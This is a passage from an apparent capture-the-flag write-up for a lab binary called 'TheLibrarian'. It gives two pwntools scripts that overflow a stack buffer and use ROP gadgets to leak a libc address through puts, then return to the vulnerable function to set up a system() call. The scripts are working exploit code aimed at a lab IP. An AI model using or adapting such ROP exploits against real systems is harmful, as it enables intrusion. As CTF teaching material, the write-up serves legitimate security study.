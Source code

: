 ```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

binary = ELF("./materials-TryPwnMeOne/TheLibrarian/thelibrarian", checksec=False)
libc = ELF("./materials-TryPwnMeOne/TheLibrarian/libc.so.6", checksec=False)

r = remote("10.10.74.205", 9008)

rop = ROP(binary)
pop_rdi_ret = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

payload = b"A" * 256                # offset to the RBP
payload += b"B" * 8                 # overwrite the RBP
payload += p64(ret)                 # ret for stack alignment
payload += p64(pop_rdi_ret)         # pop rdi gadget
payload += p64(binary.got["puts"])  # value for rdi
payload += p64(binary.plt["puts"])  # call puts

r.recvuntil(b"Again? Where this time? : ")
r.sendline(payload)
r.recvuntil(b"ok, let's go!\n\n")

leaked_puts = u64(r.recvline().rstrip().ljust(8, b"\x00")) # parse the leaked address
print(f"[+] Leaked address of puts from the GOT entry: {hex(leaked_puts)}")
libc_base_address = leaked_puts - libc.symbols["puts"] # calculate the base address of libc
print(f"[+] Calculated base address of libc: {hex(libc_base_address)}")
```

Now that we can leak an address from `libc` and calculate where it is loaded, what we can do next is, instead of exiting after leaking the address, we can make the program execute the `vuln` function again. This allows us to exploit the same vulnerability, but this time with knowledge of the `libc` base address and the ability to call the `system` function from `libc`.

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

binary = ELF("./materials-TryPwnMeOne/TheLibrarian/thelibrarian", checksec=False)
libc = ELF("./materials-TryPwnMeOne/TheLibrarian/libc.so.6", checksec=False)

r = remote("10.10.74.205", 9008)

rop = ROP(binary)
pop_rdi_ret = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

payload = b"A" * 256                        # offset to the RBP
payload += b"B" * 8                         # overwrite the RBP
payload += p64(ret)                         # ret for stack alignment
payload += p64(pop_rdi_ret)                 # pop rdi gadget
payload += p64(binary.got["puts"])          # value for rdi
payload += p64(binary.plt["puts"])          # call puts
payload += p64(binary.symbols["vuln"])      # jump back to vuln

r.recvuntil(b"Again? Where this time? : ")
r.sendline(payload)
r.recvuntil(b"ok, let's go!\n\n")
```